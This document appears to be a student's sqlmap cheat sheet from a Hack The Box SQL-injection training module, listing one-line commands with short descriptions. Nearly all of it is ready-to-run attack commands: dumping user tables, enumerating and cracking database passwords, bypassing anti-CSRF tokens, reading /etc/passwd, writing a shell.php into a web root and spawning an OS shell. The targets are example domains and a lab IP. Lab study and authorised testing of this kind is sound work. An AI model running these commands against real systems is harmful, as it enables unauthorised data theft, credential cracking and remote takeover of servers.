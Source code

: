 https://medium.com/@joshthedev/step-13-sqlmap-essentials-68829d907492



-------- SQL Essentials (HTB) ----------

SQLMap 

Install from package manager or git 
sudo apt install sqlmap
cd /etc/share/sqlmap/
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev


Default run paramae
python sqlmap.py -u 'http://inlanefreight.htb/page.php?id=5'
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch

sqlmap -u "http://138.68.141.81:30913/case3.php" --data='id=1' --method PUT
  -H "Connection: keep-alive" ^
  -H "Upgrade-Insecure-Requests: 1" ^
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36" ^
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9" ^
  -H "Referer: http://138.68.141.81:30913/" ^
  -H "Accept-Language: en-US,en;q=0.9" ^
  -H "Cookie: id=1" ^
  --compressed ^
  --insecure


Run SQLMap without asking for user input
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch	

sqlmap 'http://www.example.com/' --data 'uid=1&name=test'	SQLMap with POST request
sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'	POST request specifying an injection point with an asterisk
sqlmap -r req.txt	Passing an HTTP request file to SQLMap
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'	Specifying a cookie header
sqlmap -u www.target.com --data='id=1' --method PUT	Specifying a PUT request
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt	Store traffic to an output file
sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch	Specify verbosity level
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"	Specifying a prefix or suffix
sqlmap -u www.example.com/?id=1 -v 3 --level=5	Specifying the level and risk
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba	Basic DB enumeration
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb	Table enumeration
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname	Table/row enumeration
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"	Conditional enumeration
sqlmap -u "http://www.example.com/?id=1" --schema	Database schema enumeration
sqlmap -u "http://www.example.com/?id=1" --search -T user	Searching for data
sqlmap -u "http://www.example.com/?id=1" --passwords --batch	Password enumeration and cracking
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"	Anti-CSRF token bypass
sqlmap --list-tampers	List all tamper scripts
sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba	Check for DBA privileges
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"	Reading a local file
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"	Writing a file
sqlmap -u "http://www.example.com/?id=1" --os-shell	Spawning an OS shell
